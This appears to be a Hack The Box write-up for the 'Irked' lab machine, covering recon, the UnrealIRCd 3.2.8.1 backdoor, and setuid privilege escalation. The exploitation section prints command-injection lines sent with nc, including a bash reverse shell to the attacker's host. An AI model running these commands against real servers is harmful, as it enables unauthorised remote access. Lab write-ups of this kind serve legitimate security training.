 # Irked Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

### Nmap:

``nmap -p- -sV -oA fullirked 10.10.10.117``

### PORT      STATE SERVICE VERSION

> 22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
> 
> 80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
> 
> 111/tcp   open  rpcbind 2-4 (RPC #100000)
> 
> 6697/tcp  open  irc     UnrealIRCd
> 
> 8067/tcp  open  irc     UnrealIRCd
> 
> 34714/tcp open  status  1 (RPC #100024)
> 
> 65534/tcp open  irc     UnrealIRCd

# ${{\color{purple}Initial Foothold}}\ $


### - ``gobuster dns -d irked.htb -t 25 -w /opt/seclists/Discovery/DNS/subdomains-top1million-20000.txt``
### - ``curl http://10.10.10.117/irked.jpg -o irked.jpg``
### - ``exiftool irked.jpg`` modification Date/Time : 2018
### - IRC is almost working !
### - ``vi /etc/hosts irked.htb``


# ${{\color{purple}Exploitation}}\ $

- Google RFC IRC to find out how to chat with the service.
> Watch the Connections Registration section 

``nc -nvvvv 10.10.10.117 6697``

``PASS blabla``

``NICK blabla``

``USER blabla blabla comment :haha``

![irked2](https://user-images.githubusercontent.com/123066149/218293454-a38c0587-14e4-4e81-a2da-50810f96a917.PNG)

There is a backdor on UnrealIRCd 3.2.8.1 I test it with my hands :

`` tcpdump -i tun0 icmp ``

`` echo "AB; ping -c 1 10.10.X.X" | nc 10.10.10.117 6697``

![image](https://user-images.githubusercontent.com/123066149/218293806-b39334d6-eef7-440d-ac51-dfeea706df36.png)

``searchsploit UnrealIRCd 3.2.8.1``

### I had tested the exploit in perl and it didn't work

### So I looked for a poc of the metasploit exploit 

- Google UnrealIRCd 3.2.8.1 - Backdoor Command Execution poc github

``python exploit.py -payload python 10.10.10.117 6697``

### or 

``echo "AB; bash -c 'bash -i >& /dev/tcp/10.10.X.X/444 0>&1'" | nc 10.10.10.117 6697``


# ${{\color{purple}Privilege Escalation}}\ $

``cat .bash history | less``

``LinEnum.sh``

### I found a password in a file to extract data from an image 

``steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSssh``

![image](https://user-images.githubusercontent.com/123066149/218293960-9fbf5461-e560-4468-9b03-0201e93a4093.png)

![image](https://user-images.githubusercontent.com/123066149/218293966-b015a4ab-b57c-4749-92b9-11b3c7b70899.png)

### This was the password of user djmardov

![image](https://user-images.githubusercontent.com/123066149/218294030-6e7f4925-fd3b-415c-b2f0-96852ca4fe0e.png)

### There is a setuid binary that I am not used to see : viewusers

``base64 -w0 /usr/bin/viewuser``

![image](https://user-images.githubusercontent.com/123066149/218294127-8d50efda-8dfb-491a-8143-28f15e49722f.png)

### Kali machine 

``ltrace ./viewuser``

![irked3](https://user-images.githubusercontent.com/123066149/218294249-fc72f797-8706-4145-abba-b7ce18ce0b83.PNG)

``#! /bin/bash``

``echo "Sending a ROOT SHELL"``

``/bin/bash``

![image](https://user-images.githubusercontent.com/123066149/218294291-91d0b3a8-9aa2-48e1-96f0-18c464ba9c4d.png)

![irked5](https://user-images.githubusercontent.com/123066149/218294529-a6e3881f-0928-42d4-a5b4-a662a83391b2.PNG)

# ${{\color{purple}Points of Improvement}}\ $

* Use the protocol RFC if I don't know how to use it 

















